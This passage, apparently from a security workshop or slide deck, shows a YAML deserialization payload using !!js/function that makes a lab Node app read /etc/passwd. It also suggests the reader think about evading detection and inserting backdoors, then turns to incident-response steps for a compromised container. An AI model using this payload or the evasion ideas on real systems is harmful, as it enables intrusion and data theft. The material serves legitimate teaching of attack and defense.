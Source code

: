 ----

We can of course take this further. If you know JavaScript feel free to play around with what’s possible. If you take a look at server.js, you will see that various modules have been loaded into the global namespace, so they are available to use directly.

----

As the fs module has been loaded, it’s easy for us to interact with the filesystem. Let’s start by dumping /etc/passwd.

```
---
hi: there
test: !!js/function |
  function f() {
    fs.readFile('/etc/passwd', 'ascii', function (err, data) {
       if (err) throw err;
       console.log(data);
    });
  }();
```

----

You should now see the output of the file in docker logs. We could also have written the contents out to another file accessible to the attacker.

Now let’s do something a little more disruptive. Try evaluating the YAML file in `yaml/evil.yml` 

If you want to take this even further, have a think about how you could avoid detection and insert backdoors in the system.

----

So you should now have been able to “hack” our application.

What should you do if this happens to your site?

----

### Incident Response

Ideally orgs will have an incident response manual.

But:
* Immediately move to isolate compromised container
** And VM/host
* Do not delete
** Keep evidence for analysis
* Establish extent of attack
* Move calmly and deliberately

----

### Docker tools
